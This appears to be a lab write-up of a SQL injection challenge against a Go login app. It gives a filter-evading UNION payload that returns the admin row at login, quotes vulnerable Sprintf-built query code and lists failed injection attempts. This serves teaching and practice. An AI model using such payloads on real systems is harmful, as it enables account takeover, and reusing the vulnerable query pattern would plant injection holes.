

# SQL Injection Lab Report

## Final Solution

The solution is made up of 3 steps.

1. Register username A, which is

```
HeyMan' uunionnion selselectect * from (selselectect * from users where username = "TWL" uunionnion all selselectect * from users where username = "admin" limit 1 offset 1) uunionnion selselectect * from users where username = 'HeyMan
```

The SQL statement is

```sql
SELECT * FROM users WHERE username = 'HeyMan'
UNION
SELECT * FROM (
    SELECT * FROM users WHERE username = 'TWL'
    UNION ALL
    SELECT * FROM users WHERE username = 'admin'
    LIMIT 1 OFFSET 1
)
UNION
SELECT * FROM users WHERE username = 'HeyMan'
```

(`HeyMan` and `TWL` are chosen at will. I have to make sure username `HeyMan` and `TWL` do not exist in the db, otherwise I have to choose other ones)

2. Register username `TWL`

3. Login with username A. Now we succeed: 



## Solution Explaination

The goal is:

1. Successfully register a username A.

2. When logining in with A, the SQL query statement will return "admin".

Then we have to make the first SQL query at registration to return nothing, and the second SQL query at login to return "admin".

And with "LIMIT" keyword, we can reach it by:

1. return "admin" at the first query without limit filtering, and use "LIMIT 1 offset 1" to filter out "nothing".

2. return "TWL, admin" at the second query without limit filtering, and use "LIMIT 1 offset 1" to filter out "admin".

And we can perfectly achieve this effect by using the username A presented above, with the help of union.

### Some Key Points

1. Use "limit 1 offset 1" rather than "limit 1, 1" to avoid the comma.

2. Use one dummy select statement at the head and one at the tail to close the single quotation marks.

## Compilation

```
export GOPROXY=https://goproxy.cn,direct
go build -ldflags="-s -w" main.go
```

## Those Failed Attempts

### Formalization

Let's formalize the process:

For registration, input username A, password m0:
First check for duplicates using filtered(A)
If not duplicate, register by inserting (A, md5(m0), 0) into DB

For login, input username B, password m1:
Use prepared statement to find B, md5(m1) in DB, check if password matches
Then use the username (B) from DB to redirect to /dashboard
In dashboard, call checkPermission, which uses
filtered(B) to search in DB and return corresponding permission.

So, filter B's permission field in DB is 2

pswd(A) = m0

pswd(B) = m1

### Failed Attempts 0

Injection at registration seems useless unless I can inject into the database write statement, otherwise the permission won't be sufficient.
For example, I tried using username `admin OR 1=1` during registration, but it didn't work.

### Failed Attempts 1

For the login part, we need to pay special attention to the behavior of the `checkPermission` function:

```go
func checkPermission(username string) bool {

	// Filter is applied here again
	filteredUsername := simpleSQLFilter(username)

	log.Printf("[checkPermission] Filtered username: %s", filteredUsername)
	
	// SQL injection point
	query := fmt.Sprintf("SELECT * FROM users WHERE username = '%s'", filteredUsername)
	
	log.Printf("[checkPermission] Executing query: %s", query)
	
	var user User
	err := userdb.QueryRow(query).Scan(&user.ID, &user.Username, &user.Password, &user.Perm)
	if err != nil {
		log.Printf("[checkPermission] Permission query failed: %v", err)
		return false
	}
	
	// If permission is greater than 1, it's an admin
	return user.Perm > 1
}
```

Based on this, if we want the attack to succeed, there are only two cases:

a. The filtered username used for login is already registered as admin

b. It's not admin but the permission has been changed to 2

I tried case a. If we want the filtered username in checkPermission to be admin,
then its pre-filtered form is not admin but is registered, let's say it's A. But we can't register with A because
registration will filter A to get `admin` and check for duplicates, which will find the field already exists.
For example, I tried using username `admindrop` but it didn't work.

### Failed Attempts 2

I also tried directly injecting into the database write part. I found its format is:

```go
_, err = userdb.Exec("INSERT INTO users (username, password, perm) VALUES (?, ?, 0)", username, hashStr)
```

Therefore, I tried to inject the username as `A, md5(A), 2) ...` format.

I tried `AB', '5d41402abc4b2a76b9719d911017c592', 2) '` and  `AB', '5d41402abc4b2a76b9719d911017c592', 2) OR '`, but they didn't work. It's because before we executing the DB write statement, we have to execute a DB search, and it will failed.

And then I realized this statement can NOT be injected.